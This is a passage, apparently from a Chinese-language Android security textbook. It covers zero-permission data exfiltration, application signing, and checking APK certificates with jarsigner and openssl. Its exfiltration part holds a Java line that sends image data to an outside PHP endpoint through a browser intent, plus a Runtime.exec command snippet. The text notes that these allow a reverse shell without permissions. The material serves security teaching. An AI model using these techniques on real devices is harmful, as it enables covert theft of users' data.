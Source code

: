 最后，我们将启动浏览器将数据发送到我们的服务器，我们有一个`.php`文件侦听传入的数据：

```java
startActivity(new Intent(Intent.ACTION_VIEW,Uri.parse("http://attify.com/up.php?u="+imageString)));
```

我们还可以执行命令并以相同的方式将输出发送到远程服务器。 但是，这里需要注意的一点是 shell 应该在应用程序的用户下运行：

```java
// To execute commands : 
String str = "cat /proc/version";     //command to be executed is stored in str.
process = Runtime.getRuntime().exec(str);
```

这是一个有趣的现象，因为攻击者可以获得一个反向 shell（这是一个从设备到系统的双向连接，可以用于执行命令），而不需要任何类型的权限。

## 1.4 应用签名

应用程序签名是 Android 的独特特性之一，由于其开放性和开发人员社区，它取得了成功。 Play 商店中有超过一百万个应用。 在 Android 中，任何人都可以通过下载 Android SDK 创建 Android 应用，然后将其发布到 Play 商店。 通常有两种类型的证书签名机制。 一个是由管理证书颁发机构（CA）签名的，另一个是自签名证书。 没有中间证书颁发机构（CA），而开发人员可以创建自己的证书并为应用程序签名。

在 Apple 的 iOS 应用程序模型中可以看到 CA 签名，其中开发者上传到 App Store 的每个应用程序都经过验证，然后由 Apple 的证书签名。 一旦下载到设备，设备将验证应用程序是否由 Apple 的 CA 签名，然后才允许应用程序运行。

但是，在 Android 中是相反的。 没有证书颁发机构; 而是开发人员的自创建证书可以签署应用程序。 应用程序上传完成后，会由 Google Bouncer 进行验证，这是一个虚拟环境，用于检查应用程序是否是恶意或合法的。 检查完成后，应用就会显示在 Play 商店中。 在这种情况下，Google 不会对该应用程序进行签名。 开发人员可以使用 Android SDK 附带的工具（称为`keytool`）创建自己的证书，或者使用 Eclipse 的 GUI 创建证书。

因此，在 Android 中，一旦开发人员使用他创建的证书签名了应用程序，他需要将证书的密钥保存在安全的位置，以防止其他人窃取他的密钥并使用开发人员的证书签署其他应用程序 。

如果我们有一个 Android 应用程序（`.apk`）文件，我们可以检查应用程序的签名，并找到使用称为`jarsigner`的工具签署应用程序的人，这个工具是 Android SDK 自带的：

```
$ jarsigner -verify -certs -verbose testing.apk
```

以下是在应用程序上运行上述命令并获取签名的信息的屏幕截图：

![](img/1-4-1.jpg)

此外，解压缩`.apk`文件后，可以解析`META-INF`文件夹中出现的`CERT.RSA`文件的 ASCII 内容，以获取签名，如以下命令所示：

```
$ unzip testing.apk
$ cd META-INF
$ openssl pkcs7 -in CERT.RSA -print_certs -inform DER -out out.cer
$ cat out.cer
```

这在检测和分析未知的 Android `.apk`示例时非常有用。 因此，我们可以使用它获得签署人以及其他详细信息。

## 1.5 Android 启动流程
